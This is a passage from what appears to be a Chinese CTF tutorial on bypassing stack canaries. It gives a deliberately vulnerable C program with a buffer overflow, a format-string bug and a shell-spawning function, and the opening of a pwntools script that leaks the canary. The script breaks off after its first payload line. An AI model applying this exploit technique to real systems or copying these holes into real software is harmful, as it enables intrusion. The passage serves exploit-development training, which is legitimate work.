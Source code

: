 ```bash
#define THREAD_SET_STACK_GUARD(value) \
  THREAD_SETMEM (THREAD_SELF, header.stack_guard, value)
```

### Canary 绕过

#### 泄露栈中的 Canary

Canary 设计为以字节 `\x00` 结尾是为了保证 Canary 可以截断字符串。泄露栈中的 Canary 的思路是覆盖 Canary 的低字节，来打印出剩余的 Canary 部分。这种利用方式需要存在合适的输出函数，并且可能需要第一溢出泄露 Canary，之后再次溢出控制执行流程。

举个栗子：

存在漏洞的示例源代码如下：

```bash
// ex2.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void getshell(void) {
    system("/bin/sh");
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
void vuln() {
    char buf[100];
    for(int i=0;i<2;i++){
        read(0, buf, 0x200);
        printf(buf);
    }
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

编译为 32bit 程序并关闭 PIE 保护（默认开启 NX，ASLR，Canary 保护）

```bash
$ gcc -m32 -no-pie ex2.c -o ex2
```

首先通过覆盖 Canary 最后一个 `\x00` 字节来打印出 4 位的 Canary 之后，计算好偏移，将 Canary 填入到相应的溢出位置，实现 Ret 到 getshell 函数中

```bash
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = b"A"*100
```